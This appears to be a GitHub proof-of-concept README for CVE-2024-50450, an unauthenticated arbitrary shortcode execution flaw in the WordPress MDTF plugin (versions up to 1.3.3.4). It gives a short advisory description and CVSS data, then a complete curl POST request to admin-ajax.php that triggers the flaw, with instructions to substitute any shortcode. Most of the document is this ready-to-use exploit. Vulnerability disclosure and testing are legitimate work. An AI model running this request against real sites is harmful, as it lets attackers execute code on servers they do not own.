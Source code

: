 # CVE-2024-50450
WordPress Meta Data and Taxonomies Filter (MDTF) &lt;= 1.3.3.4 - Unauthenticated Arbitrary Shortcode Execution

# Description:
The The MDTF – Meta Data and Taxonomies Filter plugin for WordPress is vulnerable to arbitrary shortcode execution in all versions up to, and including, 1.3.3.4. This is due to the software allowing users to execute an action that does not properly validate a value before running do_shortcode. This makes it possible for unauthenticated attackers to execute arbitrary shortcodes.

```
Published: 2024-10-24 00:00:00
CVE: CVE-2024-50450
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L
CVSS Score: 7.3
Slugs: wp-meta-data-filter-and-taxonomy-filter
```

POC
---

Change [contact_7] to the shortcut code you want to run.

```
curl -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "action=mdf_get_ajax_auto_recount_data" \
  -d "mdf_front_qtrans_lang=en" \
  -d "mdf_front_wpml_lang=en" \
  -d "mdf_is_search_going=1" \
  -d "mdf_tmp_order=asc" \
  -d "mdf_tmp_orderby=date" \
  -d "no_wp_die=true" \
  -d "mdf_ajax_request=true" \
  -d "mdf_cat=category_slug" \
  -d "page_mdf=1" \
  -d "slug=page_slug" \
  -d "type=shortcode" \
  -d "shortcode_id=shortcode_id_value" \
  -d "mdf_ajax_content_redraw=true" \
  -d "shortcode_txt=[contact_7]" \
  http://kubernetes.docker.internal/wp-admin/admin-ajax.php
```
